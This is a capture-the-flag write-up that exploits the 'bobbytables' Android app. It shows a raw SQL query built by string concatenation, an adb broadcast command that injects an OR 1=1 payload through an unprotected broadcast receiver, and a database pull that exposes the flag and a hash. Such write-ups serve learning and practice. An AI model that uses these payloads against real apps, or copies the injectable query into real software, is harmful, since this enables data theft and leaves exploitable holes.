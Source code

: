 Because, here's a **vulnerable** **raw SQL query**
```java
public boolean checkUser(String username) {  
        SQLiteDatabase db = getReadableDatabase();  
        Cursor c = db.rawQuery("select username from users where username = \"" + username + "\"", null);  
        Boolean b = new Boolean(c != null && c.getCount() > 0);  
        if (c != null) {  
            c.close();  
        }  
        db.close();  
        Log.d("Does User exist", b.toString());  
        return b.booleanValue();  
    }
```

We can use this **adb** shell command for **inject** the **SQLi**
```bash
adb shell 'am broadcast -a com.bobbytables.ctf.myapplication_INTENT -e username "\" OR 1=1 --" -e password asdasdas'
```
Notice that the **output** from **logcat** is **Incorrect password**. Which means that the **user `"\" OR 1=1 --"` is valid**.

So, now we just need **make** an **malicious** app that abuse broadcast and get the content via **ADB logcat**.
Why we can do this?
Because there are an **public Broadcast receiver**.
```java
IntentFilter filter = new IntentFilter(); filter.addAction("com.bobbytables.ctf.myapplication_INTENT"); LoginReceiver receiver = new LoginReceiver(); registerReceiver(receiver, filter);
```

This intent register an **receiver** that listening broadcast for the action `com.bobbytables.ctf.myapplication_INTENT`.
So, this make that **every app installed in the device** can **send** an **broadcast** with this action.

And, the **Broadcast Receiver** from **LoginReceiver** have some vulnerabilities, for example, this not validate which **app** coming the **Intent**.
And the **Broadcast** don't have **output restrictions**. After of the **login process**, the **LoginReceiver** send a **new intent** (`com.bobbytables.ctf.myapplication_OUTPUTINTENT`) that is **another no restricted broadcast**. Which **any app installed** can **intercept the broadcast** for obtain the result of the operation.

#### Note
The intention of this **CTF** is get the of a way the **column** of the **database**.
I reinstall the **app** for create a **admin** user in the **DB**
```bash
adb pull /data/data//bobbytables.ctf.myapplication/databases/LocalDatabase.db
```

```bash
sqlite3 LocalDatabase.db
SQLite version 3.46.1 2024-08-13 09:16:08
Enter ".help" for usage hints.
sqlite> select * from users;
1|admin|608dc6110462ee35488edf83443fbbc3|ctf{An injection is all you need to get this flag - 608dc6110462ee35488edf83443fbbc3}|15115
sqlite>
```
